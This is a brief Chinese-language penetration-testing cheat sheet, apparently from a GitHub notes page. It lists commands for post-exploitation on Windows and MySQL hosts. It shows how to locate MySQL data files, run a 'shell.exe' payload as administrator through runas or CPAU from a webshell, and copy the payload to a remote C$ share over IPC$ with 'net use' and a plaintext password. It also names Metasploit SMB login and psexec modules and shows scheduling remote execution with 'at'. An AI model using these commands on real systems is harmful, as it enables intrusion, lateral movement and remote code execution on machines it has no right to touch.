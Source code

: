 - MySQL获取data文件路径：`show variables like '%datadir%'`，%datadir%\数据库名\表名.frm【字段名】 或 .MYD【数据】

- Windows：runas需要交互输入密码：`runas /user:Go0s-PC\administrator shell.exe`、cpau不需要，可直接在webshell中执行：`CPAU.exe -u administrator -p xxxxxx -ex shell.exe -lwp`

- IPC【进程间通信 Inter-Process Communication】：

  ```
  net use \\127.0.0.1 "eval123!@#" /User:"administrator"
  copy shell.exe \\127.0.0.1\c$
  net use
  MSF:auxiliary/scanner/smb/smb_login、auxiliary/admin/smb/psexec_command
  net use * /del
  ```

- Windows下`net time \\127.0.0.1`查看远程服务器时间，`at \\\127.0.0.1 17:02 c:/shell.exe`定时器作用；